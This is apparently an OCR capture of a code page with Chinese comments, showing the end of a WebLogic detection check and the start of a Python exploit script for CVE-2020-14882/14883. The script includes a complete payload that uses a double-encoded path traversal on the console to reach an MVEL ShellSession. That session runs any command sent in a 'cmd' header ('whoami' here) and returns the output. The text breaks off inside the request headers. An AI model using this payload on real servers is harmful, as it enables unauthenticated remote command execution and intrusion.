 ```
        response = requests.get(vul_url, headers=headers, timeout=10)
        # 检查响应状态码是否为200 OK
        if response.status_code == 200:
            # 检查响应内容中是否包含特定的页面标识
             if "WebLogic Server" in response.text:
                return True
        return False
    except Exception as e:
        print(f"[-] 发生错误: {e}")
        return False
```

WebLogic-CVE-2020-14883：

```
import http.client
import requests
import sys
import argparse
http.client.HTTPConnection._http_vsn_str = 'HTTP/1.0'

payload_cve_2020_14882_v12 = ('_nfpb=true&_pageLabel=&handle='
            'com.tangosol.coherence.mvel2.sh.ShellSession("weblogic.work.ExecuteThread executeThread = '
            '(weblogic.work.ExecuteThread) Thread.currentThread(); weblogic.work.WorkAdapter adapter = '
            'executeThread.getCurrentWork(); java.lang.reflect.Field field = adapter.getClass().getDeclaredField'
            '("connectionHandler"); field.setAccessible(true); Object obj = field.get(adapter); weblogic.servlet'
            '.internal.ServletRequestImpl req = (weblogic.servlet.internal.ServletRequestImpl) '
            'obj.getClass().getMethod("getServletRequest").invoke(obj); String cmd = req.getHeader("cmd"); '
            'String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]'
            '{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd}; if (cmd != null) { String result '
            '= new java.util.Scanner(java.lang.Runtime.getRuntime().exec(cmds).getInputStream()).useDelimiter'
            '("\\\\A").next(); weblogic.servlet.internal.ServletResponseImpl res = (weblogic.servlet.internal.'
            'ServletResponseImpl) req.getClass().getMethod("getResponse").invoke(req);'
            'res.getServletOutputStream().writeStream(new weblogic.xml.util.StringInputStream(result));'
            'res.getServletOutputStream().flush(); res.getWriter().write(""); }executeThread.interrupt(); ");')

def scan(target_url):

    payload = payload_cve_2020_14882_v12
    # 漏洞利用的URL路径
    path = "/console/css/%252e%252e%252fconsole.portal"
    # 构建payload
    headers = {
            'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Safari/537.36',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,'
                      'application/signed-exchange;v=b3;q=0.9',
            'Accept-Encoding': 'gzip, deflate',
            'Accept-Language': 'zh-CN,zh;q=0.9',
            'Connection': 'close',
            'Content-Type': 'application/x-www-form-urlencoded',
            'cmd': 'whoami'
```